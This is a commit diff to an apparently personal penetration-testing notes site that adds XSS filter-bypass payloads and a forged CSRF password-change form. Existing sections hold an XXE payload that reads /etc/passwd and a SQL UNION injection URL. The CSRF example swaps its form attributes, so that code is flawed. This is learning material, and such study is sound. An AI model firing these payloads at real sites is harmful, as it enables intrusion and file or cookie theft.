

Before and after one commit to gabriela-schuster/penRef, a plain HTML site: page examples.html in a window 1280 px wide. Shown: the part 100-1899 px from the top of the page at 87% size, without its empty margins (283-996 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
blog update

```diff
--- a/css/style_examples.css
+++ b/css/style_examples.css
@@ -57,6 +57,10 @@ a {
 a:visited {
 	color: var(--brown400);
 }
+.spacer {
+	display: inline-block;
+	visibility: hidden;
+  }
 
 ::selection {
 	background-color: var(--blue);
--- a/examples.html
+++ b/examples.html
@@ -14,7 +14,7 @@
 
 		<div class="box">
 			<h3>XML injection</h3>
-			<p>Example from a htb machine (bounty hunter): </p>
+			<p>example from a htb machine (bounty hunter): </p>
 			<code class="etc">
 				&lt?xml  version="1.0" encoding="ISO-8859-1"?&gt <br>
 				&ltbugreport&gt <br>
@@ -24,7 +24,7 @@
 				&ltreward&gt 100 &lt/reward&gt <br>
 				&lt/bugreport&gt
 			</code>
-			<p>Injected version, using file desclosure method: </p>
+			<p>injected version, using file desclosure method: </p>
 			<code class="etc">
 				&lt?xml  version="1.0" encoding="ISO-8859-1"?&gt <br>
 				&lt!DOCTYPE foo [ &lt!ENTITY xxe SYSTEM "file:///etc/passwd"&gt ]&gt <br>
@@ -40,8 +40,48 @@
 		</div>
 
 		<div class="box">
+			<h3>XSS injection</h3>
+			<p>consider the following code on a web server: </p>
+			<code class="etc">
+				if( is_set($_GET["name"]) ) <br>
+				<span class="spacer">aaaa</span>echo "Welcome, $_GET[name]"
+			</code>
+			<p>and the following request: </p>
+			<code class="etc">
+				http://localhost/welcome.php?name=&ltscript>alert(document.cookie)&lt/script>
+			</code>
+			<p>if it isn't a shitty code, it will have some protections, here are some ways to bypass it:</p>
+			<code class="etc">
+				http://localhost/welcome.php?name=&ltsCriPt>alert(document.cookie)&lt/sCrIpT> <br>
+				http://localhost/welcome.php?name=&ltsc&ltscript>ript>alert(document.cookie)&lt/scri&ltscript>pt> <br>
+			</code>
+		</div>
+
+		<div class="box">
+			<h3>CSFR</h3>
+			<p>consider the following code on a web server, that changes the password of an account: </p>
+			<code class="etc">
+				&ltform method="change-pass.php" action="GET"> <br>
+				<span class="spacer">aaaa</span>&ltinput type="password" name="new_password"> <br>
+				<span class="spacer">aaaa</span>&ltinput type="password" name="new_password2"> <br>
+				<span class="spacer">aaaa</span>&ltinput type="submit"> <br>
+				&lt/form> <br>
+			</code>
+			<p>if server is vulnerable, we can have the same form on a web server, and send to the same destination as the authentical one: </p>
+			<code class="etc">
+				&ltform method="site.com/change-pass.php" action="GET"> <br>
+				<span class="spacer">aaaa</span>&ltinput type="password" name="new_password" value="pwned"> <br>
+				<span class="spacer">aaaa</span>&ltinput type="password" name="new_password2" value="pwned"> <br>
+				<span class="spacer">aaaa</span>&ltinput type="submit"> <br>
+				&lt/form> <br>
+			</code>
+			<p>pressing submit, we send the form to the website, not having any form of special privileges</p>
+			<p>repair how we use se the same form, but on a DIFFERENT website</a>
+		</div>
+
+		<div class="box">
 			<h3>SQL injection</h3>
-			<p>Determining number of columns af actual table:</p>
+			<p>determining number of columns af actual table:</p>
 			<code class="etc">
 				http://store.com/login?name=' UNION ALL SELECT 1 %23'
 			</code>
```
Also changed, not shown: index.html (+18 -0 lines).
